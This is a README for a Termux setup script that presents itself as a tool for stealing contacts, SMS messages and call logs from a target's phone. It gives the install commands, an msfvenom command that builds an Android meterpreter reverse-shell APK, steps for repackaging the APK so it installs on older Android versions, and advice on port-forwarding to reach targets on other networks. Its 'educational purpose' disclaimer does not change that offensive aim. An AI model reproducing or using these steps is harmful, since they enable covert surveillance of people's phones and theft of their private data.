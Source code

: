 # metasploit
This tool will help you to steal contacts, sms, call logs and other thing of Target Mobile.
<p align="center"><img src="https://spportcovid19patient.000webhostapp.com/metasploit-696x363.png"></p>

<p align="center">
<img src="https://img.shields.io/badge/Python-3-brightgreen.svg?style=plastic">
<img src="https://img.shields.io/badge/Docker-✔-blue.svg?style=plastic">
</p>

<p align="center">
  <a href="https://twitter.com/jeopardy4u"><b>Twitter</b></a>
  <span> - </span>
  <a href="https://instagram.com/loathfaith"><b>Instagram</b></a>
  <span> - </span>
  <a href="https://github.com/loathsomeguy"><b>Tej's Page</b></a>
</p>

## Installation

### Termux

```bashapt update && upgrade
termux-setup-storage
pkg update && pkg upgrade -y
apt-get install curl
apt-get install wget
apt-get install git
pkg install postgresql
wget https://raw.githubusercontent.com/loathsomeguy/metasploit/main/metasploit.sh
chmod +x metasploit.sh
./metasploit.sh
```
## After installation complete
Start `postgresql`
```bash
./postgresql_ctl.sh start
```
And run `msfconsole`
```bash
msfconsole
```
## Cmd to generate payload
`
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.29.29 LPORT=6767 R > /sdcard/payload.apk
`

## What will be my LHOST & LPORT?
`
LHOST: your local ip of wifi/mobile network
LPORT: you can use any port`

## Payload Not isntalling, Giving Parsing Error?
`
1. Install apk editor pro in your mobile
2. Open Apk Editor Pro and "select an apk fiel and choose your payload"
3. Click "FULL EDIT (Resource Re-Build)"
4. Select Manifest in bottom right corner
5. Now Search for SDK and change target sdk version to 22
6. Now save and again save to rebuild the apk
7. Go to APK Editor Pro folder and install that File
`
## How it is useful?

* It is used to retrieve all the messages, contacts, call-logs from the Target Mobile on the same or different Network. However you need to learn how to do port-forwarding in order to do it on different network.

## Warning
***This tool is only for educational purpose. If you use this tool for other purposes except education we will not be responsible in such cases.***
